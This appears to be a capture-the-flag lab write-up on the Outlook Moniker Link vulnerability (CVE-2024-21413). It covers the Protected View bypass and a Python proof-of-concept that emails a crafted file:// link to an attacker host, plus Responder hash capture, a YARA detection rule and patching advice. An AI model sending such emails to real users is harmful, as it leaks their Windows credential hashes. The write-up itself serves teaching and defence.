 ## Moniker Link (CVE-2024-21413)

On February 13th, 2024, Microsoft announced a Microsoft Outlook RCE & credential leak vulnerability with the assigned CVE of **CVE-2024-21413 (Moniker Link)**.  
Haifei Li of Check Point Research is credited with discovering the vulnerability.

This vulnerability bypasses Outlook's security mechanisms when handling a specific type of hyperlink known as a **Moniker Link**.  
An attacker can abuse this by sending an email containing a malicious Moniker Link to a victim, resulting in Outlook sending the user's **NTLM credentials** to the attacker once the hyperlink is clicked.

**Vulnerability Scoring**

| CVSS | Description |
|------|-------------|
| Publish date | February 13th, 2024 |
| MS article | [CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413) |
| Impact | Remote Code Execution & Credential Leak |
| Severity | Critical |
| Attack Complexity | Low |
| Scoring | 9.8 |

**Affected Office Releases**

| Release | Version |
|---------|----------|
| Microsoft Office LTSC 2021 | affected from 19.0.0 |
| Microsoft 365 Apps for Enterprise | affected from 16.0.1 |
| Microsoft Office 2019 | affected from 16.0.1 |
| Microsoft Office 2016 | affected from 16.0.0 before 16.0.5435.1001 |

---

### 🔹 Moniker Link

- Outlook can render emails as HTML.  
- It can parse hyperlinks like HTTP/HTTPS, but also **Moniker Links**.  
- Normally, Outlook prompts a **Protected View warning** when external applications are triggered.  

Protected View: opens emails in **read-only mode** to block risky elements like macros.  

Example of Moniker Link:

```html
<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>
````

Bypassing Protected View using `!`:

```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```

✅ Even if the share does not exist, an **authentication attempt** is still triggered, leaking the victim's **Windows netNTLMv2 hash**.

**Q\&A**

* **What Moniker Link type do we use in the hyperlink?**
  `file://`

* **What is the special character used to bypass Outlook's "Protected View"?**
  `!`

---

### 🔹 Exploitation

The attack involves sending a crafted email with a Moniker Link that bypasses Outlook's Protected View.

#### PoC Code (exploit.py)

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")

html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

msgHtml = MIMEText(html_content, 'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

---

#### PoC Summary

* Uses attacker & victim email.
* Requires password (for lab: `attacker`).
* Contains malicious Moniker Link.
* Sends via SMTP server.


#### Starting Responder

```bash
root@attackbox:# responder -I ens5
```

*Output snippet:*

```
  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  [+] Listening for events...
```


#### Running the Exploit

```bash
root@attackbox:# python3 exploit.py
Enter your attacker email password: attacker
Email delivered
```

✅ After clicking the email link, **Responder captures the netNTLMv2 hash**.


**Q\&A**

* **What is the name of the application that we use on the AttackBox to capture the user's hash?**
  `responder`

* **What type of hash is captured once the hyperlink in the email has been clicked?**
  `netNTLMv2`

---

### 🔹 Detection

#### YARA Rule

```yara
rule EXPL_CVE_2024_21413_Microsoft_Outlook_RCE_Feb24 {
   meta:
      description = "Detects emails that contain signs of a method to exploit CVE-2024-21413 in Microsoft Outlook"
      author = "X__Junior, Florian Roth"
      reference = "https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/"
      date = "2024-02-17"
      modified = "2024-02-19"
      score = 75

   strings:
      $a1 = "Subject: "
      $a2 = "Received: "
      $xr1 = /file:\/\/\/\\\\[^"']{6,600}\.(docx|txt|pdf|xlsx|pptx|odt|etc|jpg|png|gif|bmp|tiff|svg|mp4|avi|mov|wmv|flv|mkv|mp3|wav|aac|flac|ogg|wma|exe|msi|bat|cmd|ps1|zip|rar|7z|targz|iso|dll|sys|ini|cfg|reg|html|css|java|py|c|cpp|db|sql|mdb|accdb|sqlite|eml|pst|ost|mbox|htm|php|asp|jsp|xml|ttf|otf|woff|woff2|rtf|chm|hta|js|lnk|vbe|vbs|wsf|xls|xlsm|xltm|xlt|doc|docm|dot|dotm)!/

   condition:
      filesize < 1000KB
      and all of ($a*)
      and 1 of ($xr*)
}
```

#### Wireshark

* SMB request from victim → attacker.
* Shows truncated **netNTLMv2 hash**.

---

### 🔹 Remediation

* Microsoft patched this in **February 2024 Patch Tuesday**.
* Update Office via Windows Update or Microsoft Update Catalog.

**Best Practices:**

* Do not click random/unsolicited links.
* Always preview links before clicking.
* Report suspicious emails.

⚠️ Since the vulnerability bypasses Protected View, **there is no Outlook config fix**. Blocking SMB may cause operational issues, but blocking at **firewall level** could be an option.


